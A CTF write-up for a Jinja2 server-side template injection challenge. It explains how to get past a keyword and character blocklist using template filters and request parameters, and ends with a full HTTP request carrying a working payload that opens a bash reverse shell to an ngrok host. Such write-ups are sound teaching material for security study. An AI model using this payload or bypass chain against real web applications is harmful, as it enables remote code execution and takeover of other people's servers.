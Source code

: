 ```yaml
---
description: Jinja2 SSTI filter bypass
---
```


# Strong

> This type of challenges is created to be solved at the end, but you know it's a matter of time so who is the faster?
>
> Link: http://128.199.3.34:1234
>
> **Author:** Kahla

This was a Jinja2 template injection challenge, with the following filter:

```python
re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",request.form['name'])
```

As we can see, the filter is quite extensive!

![](<../../.gitbook/assets/Screenshot 2022-05-13 at 6.06.52 PM.png>)

### Bypassing "\{{" and "\}}"

This one is rather straightforward. We could still get code execution through an if-else statement:

```django
{% raw %}
{% if PAYLOAD %}{% endif %}
{% endraw %}
```

### Bypassing ".", "\[", "]"

We could bypass the use of `.` by using the `attr` filter. For instance, `request|attr('args')` is the same as `request.args`.

Sometimes, we need to access elements of a list or dictionary. This was a bit more tricky but looking into the [Built-in Filters](https://jinja.palletsprojects.com/en/3.1.x/templates/#builtin-filters) part of the documentation, we can find some useful information.

To get the first and last items of a list, we could use `|first` and `|last` respectively.

If we need to access items in a dictionary, we could first convert them to a list using `|list`, then access the first and last elements.

### Bypassing "\_", "\\", "class", "subclasses", "getitem"

In order for our RCE payload to work, I needed access to `__class__`, `__subclassess__` and `__getitem__`.

We needed a way to construct something like `()|attr('__class__')`. The `\` character was banned, so using octal or hexadecimal numbers to construct the string was not possible.

One easy way to get banned characters into a string was to use `request.args` - this is a MultiDict object containing the GET request parameters.

For example, this allowed us to get the `__` string:

```http
POST /?__=a

...

name=... request|attr('args')|list|first ...
```

Bypassing the `class`, `subclasses`, and `getitem` strings could be done by using the `|lower` filter. For instance: `'CLASS'|lower`.

All that's left to do is to join the `class` string with the preceding and ending `__` characters. This can be achieved using `|join`.

Viola, the following will give us `().__class__`:

`()|attr((request|attr('args')|list|first,'CLASS'|lower,request|attr('args')|list|first)|join)`

This can then be extended to construct almost any arbitrary payload.

### Gaining RCE

To get RCE, a typical method is through `().__class__.__subclasses__.__getitem__(x)` where `x` corresponds to the index of the `subprocess.Popen` class.

We do not know the value of `x` in this case, but we can still blindly bruteforce the value of `x` by submitting our RCE payload with different `x` values until we receive a shell.

In order to complete our RCE payload, I needed the `.` character for my callback domain, and the `"` character for the bash command:

`bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/14003 0>&1"`

These characters can be obtained in a similar fashion as `__`. Adding a second GET request parameter, we can access `.` through `request|attr('args')|list|last`.

As for `"`, we could add another POST request parameter and access it through `request|attr('form')|list|last)|join`.

### Final Payload

It might not have been the most elegant, but it got the job done!

```http
POST /?__=a&.=b HTTP/1.1
Host: 128.199.3.34:1234
Content-Length: 661

name={% raw %}
{% if ()|attr((request|attr('args')|list|first,'CLASS'|lower,request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,'base',request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,'SUBCLASSES'|lower,request|attr('args')|list|first)|join)()|attr((request|attr('args')|list|first,'GETITEM'|lower,request|attr('args')|list|first)|join)(276)(('bash -c ',request|attr('form')|list|last,'bash -i >%26 /dev/tcp/8',request|attr('args')|list|last,'tcp',request|attr('args')|list|last,'ngrok',request|attr('args')|list|last,'io/14003 0>%261',request|attr('form')|list|last)|join,shell=True,stdout=-1) %}{% endif %}
{% endraw %}&"
```
